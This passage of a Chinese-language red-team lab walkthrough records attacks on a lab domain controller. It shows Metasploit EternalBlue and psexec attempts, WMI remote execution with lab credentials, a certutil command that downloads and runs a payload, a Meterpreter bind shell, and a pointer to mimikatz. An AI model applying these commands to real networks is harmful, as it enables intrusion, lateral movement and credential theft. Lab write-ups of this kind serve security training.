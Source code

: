 使用`exploit/windows/smb/ms17_010_eternalblue`攻击流程如下：

![](45.png)

![](46.png)

获取失败，使用

```
use exploit/windows/smb/ms17_010_psexec
set payload windows/meterpreter/blind_tcp
```

攻击流程如下

![](47.png)

仍然无法有效获取会话

### 5.5 WMI获取域控服务器

上传vmiexec.vbs到192.168.52.143（win7）机器上，然后执行

```
cscript.exe vmiexec.vbs /cmd 192.168.52.138 administrator hongrisec@2020 "whoami"
```

或者直接使用之前上传的Ladom工具执行`ladom wmiexec 192.168.52.138 administrator hongrisec@2020 whoami`

![](48.png)

同上面的过程一样，我们需要获取一个正向的msf连接，过程如下：

首先生成一个正向的exe文件放到win7的网站目录上

![](49.png)

在win7上查看

![](50.png)

在win7上使用WMI执行命令`certutil.exe -urlcache -split -f http://192.168.52.143/6666.exe&6666.exe`

![](51.png)

成功执行，这时候在138机器（DC—win2008）上开启6666端口监听

然后我们在msf上个运行blin_tcp来获取回话

![](52.png)

忘记改端口了，修改端口为6666

![](53.png)

成功获取域控权限，后续提权，可以使用msf mimikatz进一步获取用户密码等。（msf连接过程中保持内网流量转发：步骤5.2，如果无法获取会话在kali上扫描138主机6666端口是否开放，如果没有开放参考3.6，同样使用vmi命令关闭防火墙后重，我使用的是之前上传的K8大神的Lodan工具，是因为vbs脚本一直没有回显，后来重启win2008域控服务器才有回显）
